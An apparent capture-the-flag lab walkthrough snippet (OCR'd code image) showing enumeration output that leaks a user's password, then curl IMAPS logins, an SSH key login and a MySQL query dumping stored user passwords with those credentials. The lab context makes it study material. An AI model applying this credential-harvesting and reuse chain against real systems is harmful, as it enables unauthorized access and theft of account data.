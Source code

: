 ```bash
10.129.225.141:67ms:.0:BOOT_IMAGE=/vmlinuz-5.4.0-90-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro ipv6.disable=1 maybe-ubiquity

10.129.225.141:66ms:.0:0
10.129.225.141:65ms:.0:244
10.129.225.141:64ms:.0:0
10.129.225.141:67ms:.0:1
10.129.225.141:66ms:.80:/opt/tom-recovery.sh
10.129.225.141:61ms:.80:tom NMds732Js2761
10.129.225.141: Message cannot be decoded!
10.129.225.141: Message cannot be decoded!
10.129.225.141: Message cannot be decoded!


# Check toms imaps
curl -k 'imaps://10.129.225.141' --user tom:NMds732Js2761

# Look around:
curl -k 'imaps://10.129.225.141/INBOX;UID=1' --user tom:NMds732Js2761

# get key
chmod 0700 id_rsa.priv
ssh -i id_rsa.priv tom@<IP>

mysql -u tom -p 
SHOW databasees
use users
select * from user where username='htb';
mysql> select * from users where username='htb';
+------+----------+------------------------------+
| id   | username | password                     |
+------+----------+------------------------------+
|  150 | HTB      | cr3n4o7rzse7rzhnckhssncif7ds |
+------+----------+------------------------------+

```